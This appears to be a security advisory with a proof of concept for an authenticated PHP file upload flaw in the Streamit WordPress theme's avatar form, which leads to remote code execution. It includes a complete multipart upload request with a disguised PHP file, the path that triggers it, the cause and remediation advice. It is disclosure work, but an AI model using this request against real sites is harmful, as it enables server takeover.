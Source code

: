 🚀 Streamit WordPress Theme - Subscriber File Upload to RCE  
📌 Product Information  
Platform: WordPress (Theme: Streamit)  
Affected Feature: Profile Avatar Upload  
Tested Vulnerability: Arbitrary PHP File Upload (Subscriber+)  
CVE: Not Assigned  
Severity: High (Authenticated File Upload => Remote Code Execution)  
CWE ID: CWE-434  
CWE Name: Unrestricted Upload of File with Dangerous Type  
Patched: ❌ Not Applicable  
Patch Priority: 🔴 High  
Date Published: June 12, 2025  
Researcher: Grac3  
Link Product: https://themeforest.net/item/streamit-video-streaming-wordpress-theme/29772881  

⚠️ Summary of the Vulnerability  
The Streamit WordPress Theme allows logged-in users with *subscriber* role to change their avatar via the following endpoint:

example :
```
/membership-account/your-profile/?view=change-password
```

However, the form handling this request does not properly validate uploaded file types when the `update_avatar` action is set. By abusing this, attackers can upload PHP files disguised as images and trigger Remote Code Execution.

🧪 Proof of Concept (PoC)  
Sample POST Request:

```
POST /membership-account/your-profile/?view=change-password HTTP/2
Host: target.com
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryKW4qPnvjzFXSGYQM
Cookie: [VALID SUBSCRIBER COOKIE]

------WebKitFormBoundaryKW4qPnvjzFXSGYQM
Content-Disposition: form-data; name="user_avatar"; filename="bq.php"
Content-Type: image/jpeg

ÿØÿà
<?php echo 'HELLO WORLD'; ?>
------WebKitFormBoundaryKW4qPnvjzFXSGYQM
Content-Disposition: form-data; name="update_avatar"

Change
------WebKitFormBoundaryKW4qPnvjzFXSGYQM
Content-Disposition: form-data; name="_wpnonce"

[VALID_NONCE]
------WebKitFormBoundaryKW4qPnvjzFXSGYQM
Content-Disposition: form-data; name="_wp_http_referer"

/membership-account/your-profile/?view=change-password
------WebKitFormBoundaryKW4qPnvjzFXSGYQM
Content-Disposition: form-data; name="action"

update-avatar
------WebKitFormBoundaryKW4qPnvjzFXSGYQM--
```

📁 File Upload Behavior  
- The uploaded file must include the parameter `update_avatar` to be processed.
- Upon success, the file is saved in:

```
/wp-content/uploads/[year]/[month]/bq.php
```

✅ Indicators of Success:
- Status HTTP/2 200 OK
- Visiting `/wp-content/uploads/2025/06/bq.php` will execute the payload and print `HELLO WORLD`.

🔍 Where’s the Flaw?
- The file type is only superficially validated by MIME type.
- No server-side checks to restrict executable file types (like `.php`).
- Action `update_avatar` allows upload without checking user capabilities beyond basic authentication.

🔐 Recommendation  
- Enforce strict MIME and extension checks server-side for file uploads.
- Restrict `update-avatar` functionality to roles above Subscriber.
- Disallow `.php`, `.phtml`, and similar dangerous file types explicitly.
- Monitor and log all uploads, especially in `/wp-content/uploads`.

📁 Script Features (Optional)  
You may create a Python script to:
- Authenticate as a Subscriber.
- Upload a PHP payload via avatar change.
- Automatically retrieve uploaded path.
- Trigger uploaded file and verify execution.

⚠️ Disclaimer  
This information is provided for **educational and authorized testing** purposes only.  
**Do not** use it on systems without proper authorization.  
Unauthorized exploitation is illegal and unethical.
